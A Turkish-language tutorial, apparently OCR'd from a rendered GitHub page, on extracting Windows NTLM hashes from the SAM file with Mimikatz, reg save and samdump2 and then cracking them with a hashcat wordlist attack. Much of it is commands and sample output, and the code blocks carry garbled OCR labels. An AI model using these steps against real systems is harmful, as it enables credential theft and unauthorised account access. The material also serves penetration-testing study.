 
## Özet: Linux Parolasını Kırma Yöntemleri
___________________________________________________________________________________

## Windows Parolasını Kırma (Hashcat ve Alternatif Yöntemler)
Windows parolaları NTLM hashleri olarak saklanır ve genellikle SAM (Security Account Manager) dosyasında bulunur. NTLM hashlerini ele geçirip kırarak Windows parolasını elde edebilirsin.

### 1. Windows Hashlerini Alma
- a) SAM Dosyasından NTLM Hashlerini Çekme
Eğer sistemde admin yetkin varsa, SAM dosyasından hash almak için Mimikatz veya Pwdump kullanılabilir.
Mimikatz Kullanarak:
Komut İstemini (CMD) Yönetici Olarak Aç
Şu komutları çalıştır:
```bash
powershell
mimikatz
```
privilege::debug
sekurlsa::logonpasswords
- Çıktı Örneği:
```bash
makefile
```
Username: test
NTLM: aad3b435b51404eeaad3b435b51404ee:5f4dcc3b5aa765d61d8327deb882cf99
Burada ilk kısım LM hash, ikinci kısım NTLM hash’dir. NTLM hash bizim için önemli olan kısımdır.

- b) SAM Dosyasını Manuel Çıkarma
Eğer fiziksel erişimin varsa ve admin yetkin bulunuyorsa, hashleri SAM dosyasından alabilirsin.
```bash
powershell
reg save hklm\sam sam.save
reg save hklm\system system.save
```
Daha sonra samdump2 kullanarak hashleri çıkarabilirsin:
```bash
bash
```
samdump2 system.save sam.save
- Çıktı Örneği:
```bash
ruby
```
Administrator:500:aad3b435b51404eeaad3b435b51404ee:5f4dcc3b5aa765d61d8327deb882cf99:::
Burada NTLM hash’i (ikinci kısım) kırmak için Hashcat kullanacağız.

### 2. Hashcat ile Windows NTLM Hashlerini Kırma
- a) Wordlist Attack ile Kırma
Eğer popüler bir parola kullanıldıysa, wordlist saldırısı en hızlı yöntemdir:
```bash
bash
hashcat -m 1000 -a 0 hash.txt /usr/share/wordlists/rockyou.txt
```
- Komut Açıklaması:
```bash
-m 1000 → NTLM hash (Windows)
-a 0 → Wordlist attack
```
hash.txt → Kırılacak hashlerin olduğu dosya
rockyou.txt → Parola listesi
- RockYou Wordlist’i yüklemek için:
```bash
```